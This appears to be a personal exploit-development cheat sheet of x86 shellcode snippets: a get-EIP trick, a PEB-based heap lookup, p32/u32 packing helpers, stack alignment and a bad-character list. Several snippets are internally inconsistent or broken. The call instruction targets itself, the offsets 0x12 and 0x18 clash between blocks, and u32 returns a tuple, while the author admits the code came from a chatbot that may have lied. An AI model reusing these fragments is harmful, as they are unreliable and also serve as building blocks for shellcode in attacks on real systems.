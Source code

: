 hub
#shellcode #msfvenom #kali

## Get Stack
If ChatGPT didn't lie
```x86
E8 FB FF FF FF     ; call next
58                 ; next: pop eax
83 C0 FA           ; add eax, -6 (3 bytes)
```

```python
get_eip_in_eax  = b""
get_eip_in_eax += b"\xE8\xFB\xFF\xFF\xFF"
get_eip_in_eax += b"\x58"
get_eip_in_eax += b"\x83\xC0\xFA"
```
## Get Heap

```x86
31 d2                   ; xor    edx,edx
80 c2 30                ; add    dl,0x30
64 8b 12                ; mov    edx,DWORD PTR fs:[edx]
8b 52 12                ; mov    edx,DWORD PTR [edx+0x12] 
```

```python
get_heap_in_edx  = b""
get_heap_in_edx += b"\x31\xd2"        # xor    edx,edx
get_heap_in_edx += b"\x80\xc2\x30"    # add    dl,0x30
get_heap_in_edx += b"\x64\x8b\x12"    # mov    edx,DWORD PTR fs:[edx]
get_heap_in_edx += b"\x8b\x52\x18"    # mov    edx,DWORD PTR [edx+0x18] 

get_heap_in_ebx  = b""
get_heap_in_ebx += b"\x31\xdb"        # xor    ebx,ebx
get_heap_in_ebx += b"\x80\xc3\x30"    # add    bl,0x30
get_heap_in_ebx += b"\x64\x8b\x1b"    # mov    ebx,DWORD PTR fs:[ebx]
get_heap_in_ebx += b"\x8b\x5b\x18"    # mov    ebx,DWORD PTR [ebx+0x18] 
```
## Packing

```python
def p32(x):
    return struct.pack('<I', x)

def u32(x):
    return struct.unpack('<I', x)
```
## Align stack

```asm
push esp; 
pop eax; 
add ax, [value]; 
jmp eax;
```
or quick fix:
``` python
ALIGN_STACK = b'\x83\xE4\xF0'   # and    esp,0xfffffff0
```
## Badchars
```python
BADCHARS = [0x00, 0x09, 0x0a, 0x0c, 0x0d, 0x20, 0x25, 0x26, 0x2B, 0x3D, 0xbe]

```